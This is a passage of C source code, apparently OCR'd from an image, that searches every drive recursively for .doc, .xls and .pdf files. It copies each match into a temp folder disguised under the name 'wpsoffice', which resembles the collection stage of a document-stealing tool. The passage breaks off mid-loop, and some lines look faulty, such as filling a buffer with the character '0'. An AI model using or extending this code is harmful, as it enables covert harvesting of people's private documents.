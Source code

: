 ```
	{
		if (!(findfiledate.dwFileAttributes&FILE_ATTRIBUTE_DIRECTORY))
		{
			//如果找到指定文件
			if (strstr(findfiledate.cFileName, fname))
			{
				printf("%s%s\n", filename,findfiledate.cFileName);

				lstrcpy(source, filename);
				lstrcpy(target, tempdir);
				lstrcat(source, "\\*.*");
				lstrcat(target, "\\");


				memset(source, '0', sizeof(source));
				lstrcpy(source, filename);
				lstrcat(source, "\\");
				lstrcat(source, findfiledate.cFileName);
				lstrcat(target, findfiledate.cFileName);
				CopyFile(source, target, TRUE);
				count++;
			}
		}
		else
		{
			if (findfiledate.cFileName[0] != '.')
			{
				strcpy(_lpFileName, filename);
				strcat(_lpFileName, (const char*)findfiledate.cFileName);
				FindFile(_lpFileName, pfilter,fname,tempdir);  
			}
		}
	} while (FindNextFile(hfind, &findfiledate));
	FindClose(hfind);

}

int main(int argc, char* argv[])
{


	char szLogicalDriveStrings[BUFSIZE];
	DWORD iLength;
	int iSub;
	static TCHAR tempdir[MAX_PATH];

	// 创建临时文件夹
	GetTempPath(sizeof(strTmpPath), strTmpPath);
	strcat(strTmpPath, "\\");
	char szDirName[] = "wpsoffice";
	strcat(tempdir, strTmpPath);
	strcat(tempdir, szDirName);
	CreateDirectory(tempdir, NULL);

	const char* filetype[] = { ".doc",".xls", ".pdf" };

	ZeroMemory(szLogicalDriveStrings, BUFSIZE);
	iLength = GetLogicalDriveStringsA(BUFSIZE - 1, szLogicalDriveStrings);
	for (iSub = 0; iSub < iLength; iSub += 4)
	{
		for (int i = 0; i < 2; i++)
		{
    //全盘查找文件
```